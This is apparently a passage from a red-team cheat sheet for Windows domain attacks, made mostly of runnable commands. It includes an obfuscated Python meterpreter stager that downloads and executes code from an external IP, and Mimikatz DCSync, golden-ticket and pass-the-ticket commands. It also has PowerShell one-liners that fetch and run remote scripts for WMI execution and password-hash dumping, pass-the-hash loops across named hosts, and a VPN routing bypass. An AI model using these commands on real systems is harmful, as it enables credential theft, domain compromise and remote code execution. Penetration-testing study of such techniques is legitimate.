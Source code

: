```use payload/python/meterpreter/reverse_http``` ![proxy2](https://user-images.githubusercontent.com/7115563/33836652-3d9c9624-de8a-11e7-9869-e18c5a28ebd7.png) ```python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oezI6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3BlbmVyJywnUHJveHlIYW5kbGVyJ10pCmhzPVtdCmhzLmFwcGVuZCh1bC5Qcm94eUhhbmRsZXIoeydodHRwJzonaHR0cDovLzE5Mi4xNjguMTA3LjIzMjo4MDgwJ30pKQpvPXVsLmJ1aWxkX29wZW5lcigqaHMpCm8uYWRkaGVhZGVycz1bKCdVc2VyLUFnZW50JywnTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xOyBUcmlkZW50LzcuMDsgcnY6MTEuMCkgbGlrZSBHZWNrbycpXQpleGVjKG8ub3BlbignaHR0cDovLzE3OC42Mi41OC4zNTo4MC9qOTkzQScpLnJlYWQoKSkK')))"``` Finally we set up the handler: ![proxy3](https://user-images.githubusercontent.com/7115563/33836552-fd3204ac-de89-11e7-940c-71c8ab321bf7.png)

<pre>Invoke-Mimikatz -Command '"lsadump::dcsync /domain:LAZULI.CORP /user:krbtgt"'</pre>

![image](https://user-images.githubusercontent.com/7115563/34455725-7230ee30-ed85-11e7-9333-16372355ce60.png) ![image](https://user-images.githubusercontent.com/7115563/34455734-89934d5c-ed85-11e7-960e-9659e099c9df.png)

<pre>Invoke-Mimikatz  -Command '"kerberos::golden /user:adon /domain:LAZULI.CORP /krbtgt:ca1c2aeda9160094be9971bdc21c50aa /sid:S-1-5-21-1238634245-2147606590-2801756923 /id:500 /ticket:admin.kirbi /ptt"</pre>

![image](https://user-images.githubusercontent.com/7115563/34455745-9edd0360-ed85-11e7-84f0-6d62e621613b.png)

<pre>Invoke-Mimikatz  -Command '"kerberos::ptt admin.kirbi"'</pre>

![image](https://user-images.githubusercontent.com/7115563/34455747-b285372a-ed85-11e7-9374-c481108db77e.png) ![image](https://user-images.githubusercontent.com/7115563/34455748-bb0512c6-ed85-11e7-8d40-b6516cf8b0f3.png) **Invoke a command Remotely**

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-WMIExec.ps1')

 Invoke-WMIExec -Target SVHOST2  -Username Administrator -Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "powershell whoami | out-file \\SVHOST2\C$\windows\bitch.txt"
</pre>

**Invoke Mimikatz Remotely**

<pre>Invoke-WMIExec -Target SVHOST2  -Username Administrator
-Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "powershell -Enc SQBFA...AoA"</pre>

![image](https://user-images.githubusercontent.com/7115563/34455757-1f6aed1c-ed86-11e7-9415-595fa5e8d6e7.png) **Get Hashes**

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes</pre>

![image](https://user-images.githubusercontent.com/7115563/34455769-66cb31bc-ed86-11e7-846e-090647d8e32f.png) **Check Pass The Hash with multiple servers**

<pre>$hosts = @("SVDC1.LAZULI.CORP","SVFILES.LAZULI.CORP","SVHOST1.LAZULI.CORP","SVHOST2.LAZULI.CORP","SVFILES2.LAZULI.CORP")

foreach ($h in $hosts){ Invoke-WMIExec -Target $h -Username Administrator -Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "hostname" -Verbose }

</pre>

![image](https://user-images.githubusercontent.com/7115563/34455798-0bdc77ec-ed87-11e7-9504-6b9ec6fc2a8d.png) References: https://www.hacklikeapornstar.com/

### Bypass VPN routing restrictions

<pre>openconnect vpnXXX02.XXXX.com -u XX -s ‘vpn-slice XXX.46.0.0/16 hostname3 mantis=XXX.46.224.68’</pre>

![vpn](https://user-images.githubusercontent.com/7115563/34785073-5f76d2ce-f630-11e7-9acb-2fbe9e74494b.png) Reference: https://github.com/dlenski/vpn-slice

### Man's Poor VPN

Traffic forward over SSH without needing to ```ssh -D <port>```
```
